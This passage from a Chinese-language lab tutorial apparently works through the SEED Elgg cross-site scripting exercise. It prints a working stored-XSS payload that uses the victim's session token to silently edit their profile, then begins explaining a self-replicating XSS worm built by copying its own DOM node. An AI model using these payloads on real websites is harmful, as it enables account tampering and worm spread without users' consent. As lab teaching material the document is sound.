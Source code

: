 ```
website: 
accesslevel[website]: 2
twitter: 
accesslevel[twitter]: 2
guid: 57
```

每个字段都有访问等级`accesslevel[briefdescription]: 2`2表示公开
经过查看post请求其实只需要__elgg_token，__elgg_ts，guid，briefdescription，accesslevel[briefdescription]这五个字段
在上面添加好友攻击的时候查看网页源码的时候看到，出了ts和token。guid也可以通过 elgg.session.user.guid获得  


所以构建请求，并且排除掉了自己的guid
```
<script type="text/javascript">
window.onload = function() {
  var Ajax = null;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;
  var name = "&name=" + elgg.session.user.name;
  var desc = "&briefdescription=shanjiaping is 666" + "&accesslevel[briefdescription]=2";

  var sendurl = "http://www.seed-server.com/action/profile/edit";
  var content = token + ts + name + desc + guid;
  if (elgg.session.user.guid != 57){
      var Ajax = null;
      Ajax = new XMLHttpRequest();
      Ajax.open("POST", sendurl, true);
      Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
      Ajax.send(content);
  }
}
</script>
```
老样子，把这段js代码放入个人信息的输入框中  

还是登陆alice用户并查看了boby的主页，这是alice的信息就被改变了

![](/web-security/img/xss-8.png)




#### xss蠕虫
之所以被称为蠕虫，是因为可以像蠕虫一样能自传播js代码。  
为了实现这一点，js恶意代码需要得到一个与自身相同的拷贝。可以通过从外部文件获取一份自身程序拷贝，或者完全通过自身实现(这种方法很难，下面还是使用从外部获取的方式来试验)  


**通过DOM方法实现**   
当一个页面加载完后，浏览器会把页面的内容放在一个树的数据机构中，并提供api让js访问和修改树中的数据。   
如果一个页面包含js代码，这个代码也将被储存为树中的一个节点，如果知道包含恶意js代码的dom节点位置，那么就能从这个节点上获取代码。  
为了方便找到节点,我们可以在js代码取一个名字，然后可以通过`document.getElementById()`来找到。  


```
<script id="worm">
    var strCode = document.getElementById("worm").innerHTML;
    alert(strCode);
</script>
```
`document.getElementById("worm").innerHTML`可以获取节点的内部内容，不不过外部的script标签。所以只需要在获取到的内容外部在加上script就能构成完全相同的代码  
